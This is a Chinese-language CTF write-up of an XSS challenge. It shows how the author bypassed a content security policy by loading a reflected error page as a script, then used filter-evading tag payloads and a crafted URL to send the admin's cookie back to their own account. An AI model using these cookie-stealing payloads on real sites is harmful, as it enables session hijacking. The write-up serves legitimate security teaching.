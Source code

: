 刚开始搞错题目意思，一直以为是管理员后台不停刷新 show 页面，没理解那个发 url 的意思，一直都是发的 `<a>` 标签没任何反馈。
似乎木有啥过滤的 XSS，不过有 CSP 不能执行 inline 的 script，于是乎想到引用页面本身，把 html 当做 js。
然而语法因为用户名限制了字母和数字，`<br>` 那里要想语法不挂彩太难，晚上跟队友讲时突然想到其实本站内任何一个页面都行。
于是很容易发现 send 页面在用户名不存在时报错会把 reciever 和 content 打出来，还正好一前一后，于是通过注释轻松过 js 语法。

```
<scrscriptipt src="/html/index.php?action=send&to=*/alert(1)&content=/*"></scrscriptipt>
```

直接给自己发上面消息，然后进 show 页面可见直接 alert 成功。

然后企图构造 `document.location = 'xxx' + document.cookie` 发现 send 页面会把引号转义输出。
于是乎想了想，把字符串放 url 中，用 substr 取出来就好了，简单起见，可以放在 `#` 后面用 `location.hash` 取。
给自己发下面消息，然后进 show 页面即会自动跳转。

```
<scrscriptipt src="/html/index.php?action=send&to=*/document.location=location.hash.substr(1)%2bdocument.cookie&content=/*"></scrscriptipt>
```

最后把这条消息发给管理之后，给管理员发送下面 url 让管理员去访问，即可收到含 cookie 的消息，可见 flag。

```
http://202.120.7.136:8888/html/index.php?action=show#http://202.120.7.136:8888/html/index.php?action=send&to=ripples2&content=testfromadmin-
```

当然，应该是可以直接把这两条消息拼成一个 url 直接发给管理员就好了，不过既然已经过了就懒得搞了。

作为被 PWN400 卡死之余，无聊看看水过的题，越想越觉得甚是欣慰……

